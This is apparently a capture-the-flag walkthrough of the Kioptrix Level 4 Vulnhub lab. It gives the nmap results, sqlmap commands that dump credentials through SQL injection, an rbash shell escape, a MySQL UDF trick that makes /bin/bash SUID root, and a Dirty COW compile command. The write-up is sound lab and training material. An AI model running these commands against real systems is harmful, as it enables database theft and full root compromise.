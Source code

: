 <h1>Kioptrix: Level 4 Write-up</h1>

<h2>NMAP</h2>

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

<h4>PORT 80</h4>

**Sql Injection on ligGoat:**

sqlmap :

```
sqlmap --url "http://192.168.43.46/index.php" --form 
sqlmap --url "http://192.168.43.46/index.php" --form --dbs
sqlmap --url "http://192.168.43.46/index.php" --form -D members --dump
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%204/Images/sqlmap.png)

```
Creds : 
john : MyNameIsJohn
robert : ADGAdsafdfwt4gadfga==
```


<h3>Login to ssh using john creds and rbash shell escape</h3>

```echo os.system("/bin/bash")```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%204/Images/shell%20escape.png)

<h2>Privilege Escalation:</h2>

<h3>Method 1</h3>

**MySQL Root to System Root with lib_mysqludf_sys for Windows and Linux**

Source : https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/

```
mysql -u root -p
mysql> use mysql;
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
mysql> select sys_exec('chmod u+s /bin/bash');
```

```
bash-3.2$ ls -l /bin/bash
-rwsr-xr-x 1 root root 702160 2008-05-12 14:33 /bin/bash
bash-3.2$ bash -p
bash-3.2# whoami
root
```

<h3>Method 2</h3>

Exploit : https://www.exploit-db.com/exploits/40839

Compile exploit in your pc with :

```gcc -pthread dirty.c -o dirty -lcrypt -m32```


and transfer in Kioptrix 


![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%204/Images/rooted.png)
